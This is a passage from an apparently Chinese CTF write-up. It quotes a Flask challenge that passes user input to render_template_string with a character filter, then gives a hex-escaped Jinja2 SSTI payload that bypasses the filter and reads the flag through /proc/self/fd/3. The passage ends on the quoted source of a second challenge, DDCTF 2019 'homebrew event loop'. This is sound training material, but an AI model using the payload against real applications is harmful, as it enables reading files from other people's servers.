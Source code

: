 ```python
        try:
            p = request.values.get('nickname')
            id = random.randint(0, len(nicknames) - 1)
            if p != None:
                if '.' in p or '_' in p or '\'' in p:
                    return 'Your nickname contains restricted characters!'
                return render_template_string(nicknames[id] % p)
        except Exception as e:
            print(e)
        return 'Exception'

    return render_template('index.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

很经典的利用 /proc/self/fd/ 来读取 flag

注意需要使用 python open 函数来读取 (否则 self 指向的是某个命令的 pid)

```python
{{lipsum["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"]["\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f"]["open"]("/proc/self/fd/3")["read"]()}}
```

![image-20221220215105187](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212202151267.png)

## [DDCTF 2019]homebrew event loop

```python
from flask import Flask, session, request, Response
import urllib

app = Flask(__name__)
app.secret_key = '*********************'  # censored
url_prefix = '/d5afe1f66147e857'


def FLAG():
    return '*********************'  # censored


def trigger_event(event):
    session['log'].append(event)
    if len(session['log']) > 5:
        session['log'] = session['log'][-5:]
    if type(event) == type([]):
        request.event_queue += event
    else:
        request.event_queue.append(event)


def get_mid_str(haystack, prefix, postfix=None):
    haystack = haystack[haystack.find(prefix)+len(prefix):]
    if postfix is not None:
        haystack = haystack[:haystack.find(postfix)]
    return haystack


class RollBackException:
    pass


```